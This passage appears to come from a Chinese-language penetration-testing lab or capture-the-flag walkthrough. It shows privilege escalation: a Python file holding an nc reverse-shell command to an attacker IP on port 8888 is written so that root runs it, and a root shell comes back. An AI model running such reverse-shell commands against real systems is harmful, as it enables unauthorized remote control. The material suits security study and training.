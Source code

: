 ```shell
echo 'import os;os.system("/bin/nc 192.168.10.6 8888 -e /bin/bash")' > tmp.py
#因为测试/bin/bash直接反弹，好像不行，所有采用nc
```

![](./pic/29.jpg)

在`kali`另起终端，开启监听8888端口，然后大概两分钟，获取到`root`的shell

![](./pic/30.jpg)

# 总结
